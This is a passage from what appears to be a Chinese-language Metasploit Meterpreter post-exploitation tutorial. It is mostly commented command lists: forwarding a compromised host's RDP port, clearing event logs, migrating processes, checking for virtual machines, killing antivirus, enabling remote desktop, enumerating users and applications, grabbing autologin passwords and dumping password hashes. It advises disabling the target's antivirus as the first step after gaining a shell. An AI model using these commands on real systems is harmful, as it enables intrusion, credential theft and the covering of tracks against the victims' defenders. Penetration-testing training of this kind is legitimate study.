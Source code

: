 ```
portfwd add -l 3389 -r 192.168.11.13 -p 3389     #将192.168.11.13的3389端口转发到本地的3389端口上，这里的192.168.11.13是获取权限的主机的ip地址      3
clearev                       #清除日志
```




### Post 后渗透模块 



该模块主要用于在取得目标主机系统远程控制权后，进行一系列的后渗透攻击动作。



```
run post/windows/manage/migrate           #自动进程迁移      
run post/windows/gather/checkvm           #查看目标主机是否运行在虚拟机上      
run post/windows/manage/killav            #关闭杀毒软件      
run post/windows/manage/enable_rdp        #开启远程桌面服务      
run post/windows/manage/autoroute         #查看路由信息      
run post/windows/gather/enum_logged_on_users    #列举当前登录的用户      
run post/windows/gather/enum_applications       #列举应用程序      
run post/windows/gather/credentials/windows_autologin #抓取自动登录的用户名和密码      
run post/windows/gather/smart_hashdump               #dump出所有用户的hash
```




输入：sysinfo   查看目标主机的信息



![](https://img-blog.csdn.net/20181024194658593?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



### 查看主机是否运行在虚拟机上



```
run post/windows/gather/checkvm
```




![](https://img-blog.csdnimg.cn/20190613151852676.png)



### 关闭杀毒软件 



拿到目标主机的shell后第一件事就是关闭掉目标主机的杀毒软件，通过命令：



```
run  killav
```

